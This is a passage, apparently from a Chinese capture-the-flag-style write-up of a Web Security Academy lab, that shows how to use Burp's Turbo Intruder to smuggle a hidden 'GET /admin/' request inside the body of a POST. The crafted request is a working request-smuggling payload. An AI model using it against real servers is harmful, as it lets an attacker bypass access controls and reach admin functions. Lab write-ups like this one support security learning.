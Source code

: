 [![](assets/1705301772-db9562b8119de4e59a8cba1ee79656fb.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240114184102-694f4b4e-b2c9-1.png)  
然后我们右键单击请求，选择Extensions-> Turbo intrusor->发送到Turbo intrusor  
[![](assets/1705301772-6219980871b81e4bf982f1256c0bce76.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240114184115-71146f26-b2c9-1.png)  
在Turbo Intruder中将请求转换为POST请求，更改头部信息"keep-alive"，同时将完整的"GET /admin"请求添加到主请求的正文中(注意这里有两个换行哦)

```plain
POST /resources HTTP/1.1
Host: 0aad0076039d4f288088e4a6007e0045.web-security-academy.net
Cookie: session=rwdFIEqyq1RBngaBvRN99WsxWGpsUpeD
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 0


GET /admin/ HTTP/1.1
Host: 0aad0076039d4f288088e4a6007e0045.web-security-academy.net
```
